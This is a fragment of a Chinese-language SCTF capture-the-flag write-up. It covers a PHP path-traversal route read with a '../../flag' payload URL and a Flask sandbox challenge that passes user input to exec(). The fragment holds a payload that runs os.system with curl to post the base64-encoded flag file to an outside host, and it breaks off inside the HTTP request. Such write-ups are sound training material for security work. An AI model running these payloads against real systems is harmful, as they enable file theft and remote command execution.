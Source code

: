 ```php=
Route::get('/tmp/{filename}', function ($filename) {
    readfile("./var/tmp/".$filename);
})->where('filename', '(.*)');
```
直接任意文件读取，但是因为两个../服务器不会解析直接报错的原因无法穿到根目录，后来想到在弄个index.php就好了
最后的payload:http://39.104.93.188/index.php/tmp/../../flag

SCTF{B3st_1angu4g3_F0r_Uohhhhhhhhhh1l1l1}

## pysandbox

### pysandbox1

app.py
```python=
from flask import Flask, request

app = Flask(__name__)


@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: return "error!"

    exec(secret)
    return "xXXxXXx"


if __name__ == '__main__':
    app.run(host="0.0.0.0")

```
测试环境：http://ccreater.top:60011/
禁用字符：

`["\u0000", "\u0001", "\u0002", "\u0003", "\u0004", "\u0005", "\u0006", "\u0007", "\b", "\t", "\n", "\u000b", "\f", "\r", "\u000e", "\u000f", "\u0010", "\u0011", "\u0012", "\u0013", "\u0014", "\u0015", "\u0016", "\u0017", "\u0018", "\u0019", "\u001a", "\u001b", "\u001c", "\u001d", "\u001e", "\u001f", " ", "!", "\"", "#", "$", "%", "&", "'", "(", ")", "{", "|", "}", "~", "\u007f"]`


利用魔术方法? : `__getitem__,__getattr__`

payload:
```
POST /?a=__import__('os').system('curl+http%3a//ccreater.top%3a60000/+-d+`cat+flag|base64`') HTTP/1.1
Host: 39.104.90.30:10006
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://39.104.90.30:10006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx3B8HB5b
Content-Length: 248

------WebKitFormBoundaryx3B8HB5b
Content-Disposition: form-data; name="cmd"

```
